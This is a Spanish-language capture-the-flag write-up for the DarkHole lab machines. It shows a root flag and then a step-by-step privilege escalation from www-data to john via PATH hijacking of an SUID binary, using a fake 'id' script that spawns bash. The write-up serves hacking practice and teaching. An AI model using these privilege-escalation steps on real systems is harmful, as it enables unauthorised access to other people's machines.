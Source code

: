 ```bash
cat root.txt
DarkHole{You_Are_Legend}
root@darkhole:/root#
```

### Segunda

#### Pivoting de usuario - PATH Hijacking

Si listamos el contenido de `/home/john`, observamos un archivo `toto` con permisos `SUID`, procedemos a ejecutarlo.

```bash
drwxr-xr-x 4 root root      4096 Jul 16  2021 ..
-rw------- 1 john john      1722 Jul 17  2021 .bash_history
-rw-r--r-- 1 john john       220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john john      3771 Jul 16  2021 .bashrc
drwx------ 2 john john      4096 Jul 17  2021 .cache
drwxrwxr-x 3 john john      4096 Jul 17  2021 .local
-rw------- 1 john john        37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john john       807 Jul 16  2021 .profile
drwxrwx--- 2 john www-data  4096 Feb  6 17:46 .ssh
-rwxrwx--- 1 john john         1 Jul 17  2021 file.py
-rwxrwx--- 1 john john         8 Jul 17  2021 password
-rwsr-xr-x 1 root root     16784 Jul 17  2021 toto
-rw-rw---- 1 john john        24 Jul 17  2021 user.txt
www-data@darkhole:/home/john$ ./toto
./toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

El binario ejecuta el comando `id` y muestra la salida de dicho comando, acá entra en juego la técnica `PATH Hijacking`, en la cual modificamos la variable de entorno **PATH** para que el sistema busque los binarios partiendo desde donde nosotros queremos, por ej. `/tmp`.

Procedemos a cambiar la variable y creamos un archivo `id` el cual va a ser llamado por el binario *toto*.

```bash
www-data@darkhole:/tmp$ export PATH=/tmp/:$PATH
export PATH=/tmp/:$PATH

www-data@darkhole:/tmp$ echo $PATH
echo $PATH
/tmp/:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

www-data@darkhole:/tmp$ echo '/bin/bash' > id
echo '/bin/bash' > id

www-data@darkhole:/tmp$ chmod +x id
chmod +x id

www-data@darkhole:/home/john$ ./toto
./toto
whoami
john
```
